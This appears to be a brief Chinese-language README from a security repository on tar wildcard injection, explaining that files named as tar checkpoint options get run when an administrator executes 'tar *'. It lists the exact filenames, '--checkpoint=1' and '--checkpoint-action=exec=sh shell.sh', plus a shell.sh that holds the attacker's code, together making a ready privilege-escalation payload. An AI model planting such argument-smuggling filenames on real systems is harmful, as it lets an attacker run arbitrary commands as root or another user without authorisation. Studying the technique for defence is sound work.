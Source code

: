 # TAR命令执行
通过使用检查点操作的tar选项,在检查点之后可以使用指定的操作. 该操作可能是一个恶意的shell脚本，它可以用于在启动tar的用户下执行任意命令. “欺骗”根来使用特定的选项非常简单,这就是通配符的用武之地.	

## 开发

这些文件针对的是"tar *"
```
--checkpoint=1
--checkpoint-action=exec=sh shell.sh
shell.sh   (your exploit code is here)
```

## 感谢
* 
